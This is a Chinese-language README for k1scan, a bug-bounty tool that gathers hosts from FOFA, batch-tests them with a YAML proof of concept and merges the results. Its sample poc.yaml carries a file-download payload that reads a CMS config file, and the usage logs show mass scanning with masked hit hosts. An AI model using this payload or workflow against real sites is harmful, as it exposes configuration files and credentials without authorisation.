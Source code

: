 # k1scan

FOFA Get only host, POC Batch testing, merge&amp;dedup

为了刷公益 SRC 诞生的小工具

使用示例参考: <https://www.yuque.com/ky1in7/blog/cxe3d5>

很简单的 demo, 好不好用先不说, 反正肯定能用

## ⭐️ 主要功能

1. FOFA信息收集
   - 仅保留 host 字段, 保存为 txt 格式
2. POC 批量检测
   - 基于 poc.yaml 配置文件
   - 支持字段: method, path, timeout
3. 数据合并/去重
   - 对 results 文件夹内数据合并去重

## 🚀 快速开始

- **使用 FOFA 信息收集请检查 `api.yaml` 配置文件是否正确**

- **使用 POC 批量检测请检查 `poc.yaml` 配置文件是否正确**

### 1. 安装步骤

```bash
git clone https://github.com/ky1in7/k1scan.git ./k1scan
cd k1scan
python -m pip install -r requirements.txt
```

### 2. 配置文件

- api.yaml (FOFA信息收集)

```yaml
fofa_api:
  fofa_email: 填入fofa email
  fofa_key: 填入 fofa key
```

- poc.yaml (POC批量检测)

```yaml
request:
  # 请求方式 GET/POST
  method: get
  # 请求路径
  path: /do/job.php?job=download&url=ZGF0YS9jb25maWcucGg8
  # 超时时间
  timeout: 5
response:
  # 若存在漏洞响应包中包含的任意内容
  hit_content: <?php
```

### 3. 使用示例

```bash
> python main.py

[1] FOFA数据采集
[2] POC 批量检测
[3] 爱站-权重查询 (未实现)
[4] 数据合并/去重
```

参考 <https://www.yuque.com/ky1in7/blog/cxe3d5>

## 📌 补充说明

1. FOFA信息收集

```bash
python main.py

[1] FOFA数据采集
[2] POC 批量检测
[3] 爱站-权重查询 (未实现)
[4] 数据合并/去重

# 选择语句
请输入选项 1/2/3/4: 1
请输入 FOFA 规则语句: asd123
请求链接: [https://fofa.info/api/v1/search/all?email=***&key=***&qbase64=YXNkMTIz&fields=host&size=10000]
请求规则: [asd123]
共返回: [745] 条数据
# 是否保存 (默认为 N)
是否保存数据?[y/N]:y
=== 文件将保存为 txt 格式文件 ===
=== 数据类型为: <class 'list'> ===
# 选择语句 (结尾带不带 txt 都行)
请输入保存文件名称: fofa_search_xxx.txt
[Success] 保存成功, 文件路径: ./results/fofa_search_xxx.txt
```

2. POC 批量检测

```bash
python main.py

[1] FOFA数据采集
[2] POC 批量检测
[3] 爱站-权重查询
[4] 数据合并/去重

# 选择语句
请输入选项 1/2/3/4: 2
# 选择检测的 url 文件名称, 必须存放在 results 目录下
请将文件放在 results 目录下, 并输入文件名称: qibo.txt
=== [以下为命中结果] ===
http://www.*******.com
http://www.******.com
http://******.com
http://******
http://******
http://www.******.com
http://bf.******.cn
http://m.******.com
http://******.******.******.com
http://www.******.com
http://******
```

3. 数据合并/去重

其实暂时只完成了合并, 输入保存名称后执行自动合并 results 目录下的所有文件

```bash
# 统计所有原文件行数
> wc results/*
    7192    7192  144864 results/******1.txt
    4482    4482   89230 results/******2.txt
    4130    4130   91867 results/******3.txt
    3484    3484   76138 results/******4.txt
   19288   19288  402099 results/******_all.txt
     745     745   15316 results/******.txt
    2706    2706   58357 results/***.txt
      36      36     771 results/***_result.txt
       2       3      48 results/*****.txt
   42065   42066  878690 total

> python main.py

[1] FOFA数据采集
[2] POC 批量检测
[3] 爱站-权重查询 (未实现)
[4] 数据合并/去重

请输入选项 1/2/3/4: 4
将对 results 内所有结果进行排序去重
是否进行操作?[y/N]:y
输入保存的新文件名: :alll.txt
- 读取到 ['xxx.txt', 'xxxxx.txt', 'xxxxx.txt', 'xxxxx.txt', 'xxxxx.txt', 'xxxxx.txt', 'xxxx.txt', 'xxx.txt', 'xxxxxx.txt'], 共 [9] 个文件
写入成功, 文件路径为 [results/alll.txt], 共 41901 条结果

# 统计合并后文件行数
wc results/alll.txt
   42065   42065  878690 results/alll.txt
```

### 关于权重查询

太麻烦了, 暂时没时间写, 先搁置

手动查权重的两个站点
- <https://rank.chinaz.com/all>
- <https://www.aizhan.com/>

## 免责声明

> 维护网络安全，营造良好的网络环境，程序仅供参考学习，请勿使用文中技术于非法用途，使用者造成任何负面影响与本人无关。